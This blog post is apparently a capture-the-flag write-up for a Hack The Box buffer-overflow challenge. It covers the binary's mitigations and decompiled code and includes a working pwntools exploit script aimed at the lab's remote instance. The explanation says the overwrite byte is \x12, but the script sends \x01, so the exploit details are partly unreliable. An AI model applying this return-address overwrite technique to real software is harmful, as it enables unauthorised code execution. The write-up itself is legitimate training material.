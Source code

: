 ```yaml
---
title: "Binary Exploitation Writeup - Space Pirate: Going Deeper"
published: true
date: 2025-02-10 00:00:00 +/-0000
categories: [general,ctf]
tags: [ctf,htb,binexp,binary exploitation,reverse engineering]     # TAG names should always be lowercase
image:
    path: /assets/images/malware.jpg
---
```


# HTB - Space Pirate: Going Deeper

This was a pretty standard buffer overflow exercise. Rated "Very Easy" by Hack The Box, this `pwn` binary was a pretty cut-and-dry exercise (with the only real points of friction being the unstable connection to the remote instance).

This challenge - like other `pwn` challenges - isn't shipped with its source code, so one of the first tasks we need to go about is understanding it's underlying behavior. Like in other similar problems. Our preliminary checks include a cursory `file` review:

```bash
file ./sp_going_deeper

sp_going_deeper: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e9d96fdc1091d36833c62c12aa64d686730493eb, not stripped
```

As well as running the binary through `checksec`:

```bash
checksec --file=sp_going_deeper
```

|Check|Value|[Implication](https://opensource.com/article/21/6/linux-checksec)|
|---|---|---|
|RELRO|Full RELRO| Relocation Read-Only; ELF's use Global Offset Table (GOT) to resolve functions. Being FULL, the binary is read-only, mitigating relocation attacks.|
|STACK CANARY| No canary found | Canaries are values placed between a buffer and control data on the stack to monitor buffer overflows. Their absence suggests we might be able to perform BOF. |
|NX| NX enabled | The Non-Executable bit is set. This prevents the execution of code injected via BOF. |
|PIE| No PIE | Position-Independent Executable; code placed in memory regardless of its absolute address. Since it's disabled, the base addresses aren't randomized (use `objdump`)|
|RPATH| No RPATH | This is tied to privilege escalation; essentially, we could place a malicious version of the binary in the relative path - this isn't relevant to `pwn`. |
|RUNPATH| RW-RUNPATH | This is tied to privilege escalation; essentially, we could place a malicious version of the binary in the relative path - this isn't relevant to `pwn` |
|Symbols| 77 symbols | At compile time, certain symbols may be retained to help with debugging. This checks out with the "not stripped" response from our `file` command ran above.|
|FORTIFY| No | This refers to "FORTIFY_source"; specifically geared towards preventing basic buffer overflows and format string vulnerabilities. A "No" indicates these may be viable.|
|Fortifiable| 2 | The number of functions within the binary that could benefit from `FORTIFY`. |
|FILE| sp_goin_deeper | The binary in question. |

Opening the binary in `ghidra` to review the decompiled source code shows a limited `main()` function:

```c
undefined8 main(void)

{
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```
The `setup()`, `banner()`, and `puts()` calls are all just preliminary fluff, setting up ASCII art, etc. The real meat-and-potatoes of the binary rests in `admin_panel()`:

```c
void admin_panel(long param_1,long param_2,long param_3)

{
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  read(0,local_38,0x39);
  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```

## Buffer Overflow

The vulnerability in this process rests with the `read(0, local_38, 0x39)` call. The value `0x39` is hex for 57, which is more than what `local_38` is allocated (40). This allows for a buffer overflow to take place. However, the overflow is pretty well constrained. Testing it with payloads of "A" and then "B" shows that we only really control the last byte of the `ret` address (in this case from 0x41 "A" to 0x42 "B"):

![alt text](/assets/images/ret-overflow.png)

With this in mind, we're constrained to addresses in the `0x400bXX` space. Fortunately looking over the assembly reveals a great option here:

```
        00400b12 48 8d 3d        LEA        RDI,[s_cat_flag*_004015be]                       = "cat flag*"
                 a5 0a 00 00
        00400b19 e8 e2 fb        CALL       <EXTERNAL>::system                               int system(char * __command)
                 ff ff
```

The first loads the "cat flag" string into RDI (which in 64-bit systems is the placeholder for the first argument for function calls), then the second is a `system()` call to perform that operation. Therefore, we can construct our exploit trivially by having the 57th byte replace with `\x12`, thereby jumping to 0x400b12. Our exploit thus looks like:

```python
#!/usr/bin/env python3
import sys
from pwn import *
context.update(arch='amd64', os='linux')

binstr = "./sp_going_deeper"
address_port_str = "94.237.54.42:35233"
ip, port_str = address_port_str.split(":")
port = int(port_str)

#    break *0x56555d36
if (len(sys.argv)<= 1):
    p = process(binstr)
elif (sys.argv[1] == "dbg"):
    p = gdb.debug([binstr],'''
    unset env LINES
    unset env COLUMNS
    break *0x400aba
    continue
    ''')
elif (sys.argv[1] == "remote"):
    p = remote(ip,port)
else:
    print(f"Invalid argument to e.py: '{sys.argv[1]}'. Did you mean 'dbg'?")
    sys.exit(1)

payload = b''
payload += b'A' * 56
payload += b'\x01'

p.sendlineafter(b'\n>> ', b'1')
p.sendline(payload)

p.interactive()
```

The one bit that was frustrating was that the exploit performed inconsistently. While everything worked locally, I had to perform this exploit *many* times over the remote connection before it worked. Not sure what was happening; some people said the connection was unstable, but I'm not sure.

